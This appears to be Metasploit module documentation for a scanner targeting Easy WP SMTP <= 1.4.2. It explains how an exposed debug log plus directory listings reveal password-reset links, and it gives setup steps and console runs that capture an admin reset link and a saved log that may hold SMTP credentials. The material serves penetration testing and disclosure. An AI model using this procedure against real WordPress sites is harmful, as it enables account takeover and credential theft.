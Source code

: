 ## Vulnerable Application

Wordpress plugin Easy WP SMTP versions <= 1.4.2 was found to not include index.html within its plugin folder.
This potentially allows for directory listings.  If debug mode is also enabled for the plugin, all SMTP
commands are stored in a debug file.
Combining these items, it's possible to request a password reset for an account, then view the debug file to determine
the link that was emailed out, and reset the user's password.

This module will list ALL reset links, most likely the last one is the one that will work, however there
may be value in the others as well (such as other users).  The debug log saved in loot may also contain
the SMTP username and password.

There is one potential false negative case where the `aggressive` option should be used.
If debug mode was enabled, however only the `Test Email` was used (or no legit email has been sent by the server),
the debug file won't exist yet.  This will be remedied by the first password reset request, but to avoid this module
being too noisy, it won't happen unles `aggressive` is set to `true`.

To summarize:

1. Vulnerable version of Easy WP SMTP
1. debug turned on for Easy WP SMTP
1. SMTP configured for Easy WP SMTP
1. direcotry listings enabled

### Install

1. Install wordpress
1. Download and install [Easy WP SMTP](https://wordpress.org/plugins/easy-wp-smtp/advanced/) <= 1.4.2
1. Browse to Settings > Easy WP SMTP
    1. Configure the plugin (SMTP Host, SMTP Port, UN/PASS)
    1. Additional Settings > Enable Debug Log (Check this value, click Save Changes)

## Verification Steps

1. Install Wordpress, Easy WP SMTP, and configure it
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_easy_wp_smtp`
1. Do: `set rhost [ip]`
1. Do: `set USER [username]`
1. Do: `run`
1. You should get the link to reset the user's password

## Options

### User

The username to reset the password of.  Defaults to `Admin`

### Aggressive

When `true`, if directory listings are enabled, however debug file can not be found, the code will proceed anyways.
Defaults to `false`.

## Scenarios

### Easy WP SMTP 1.4.1 on Wordpress 5.4.4 running on Ubuntu 20.04

```
resource (wp_easy_wp_smtp.rb)> use auxiliary/scanner/http/wp_easy_wp_smtp
resource (wp_easy_wp_smtp.rb)> set verbose true
verbose => true
resource (wp_easy_wp_smtp.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (wp_easy_wp_smtp.rb)> run
[*] Checking /wp-content/plugins/easy-wp-smtp/readme.txt
[*] Found version 1.4.1 in the plugin
[+] Vulnerable version of Easy WP SMTP detected
[+] Found debug log: /wp-content/plugins/easy-wp-smtp/5fcfd49e879f9_debug_log.txt
[*] Sending password reset for Admin
[+] Debug log saved to /home/h00die/.msf4/loot/20201208204705_default_1.1.1.1_5fcfd49e879f9_de_209239.txt.  Manual review for possible SMTP password, and other information.
[*] admin password reset: http://1.1.1.1/wp-login.php?action=rp&key=IdlSwWkIuy0f7k79OU2p&login=admin
[*] Finished enumerating resets.  Last one most likely to succeed
[*] Scanned 1 of 1 hosts (100% complete)
```

### Easy WP SMTP 1.4.1 on Wordpress 5.4.4 running on Ubuntu 20.04.  Aggressive mode

```
resource (easy-wp-smtp.rb)> use auxiliary/scanner/http/wp_easy_wp_smtp
resource (easy-wp-smtp.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (easy-wp-smtp.rb)> set verbose true
verbose => true
resource (easy-wp-smtp.rb)> run
[*] Checking /wp-content/plugins/easy-wp-smtp/readme.txt
[*] Found version 1.4.1 in the plugin
[+] Vulnerable version of Easy WP SMTP detected
[*] Checking for debug_log file
[-] not-vulnerable: Either debug log not turned on, or directory listings disabled.  Try AGGRESSIVE mode if this is a false positive
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```
resource (easy-wp-smtp.rb)> set aggressive true
aggressive => true
resource (easy-wp-smtp.rb)> run
[*] Checking /wp-content/plugins/easy-wp-smtp/readme.txt
[*] Found version 1.4.1 in the plugin
[+] Vulnerable version of Easy WP SMTP detected
[*] Checking for debug_log file
[-] Debug file not found, bypassing check due to AGGRESSIVE mode
[*] Sending password reset for Admin
[*] Checking for debug_log file
[+] Debug log saved to /home/h00die/.msf4/loot/20201218152659_default_1.1.1.1_5fcfd49e879f9_de_812609.txt.  Manual review for possible SMTP password, and other information.
[*] admin password reset: http://1.1.1.1/wp-login.php?action=rp&key=SQRBS8Hpro9jPQdZ9vP5&login=admin
[*] Finished enumerating resets.  Last one most likely to succeed
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
